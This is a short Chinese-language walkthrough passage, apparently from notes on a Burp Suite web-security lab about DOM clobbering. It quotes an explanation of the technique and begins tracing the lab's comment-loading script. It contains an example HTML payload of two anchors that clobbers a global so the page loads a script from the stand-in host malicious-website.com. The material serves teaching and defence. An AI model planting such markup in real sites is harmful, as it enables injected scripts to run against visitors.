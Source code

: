 ##### 第一种解法

>  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.
>
> A common pattern used by JavaScript developers is:
>
> `var someObject = window.someObject || {};`
>
> If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor.
>
> `<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`
>
> As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

![6.1](DOM-burp.assets/6.1.png)

可以看到，评论区引用了`resources/js/loadCommentsWithDomClobbering.js`文件。

然后在这个文件里面看到了这行代码：

![6.2](DOM-burp.assets/6.2.png)
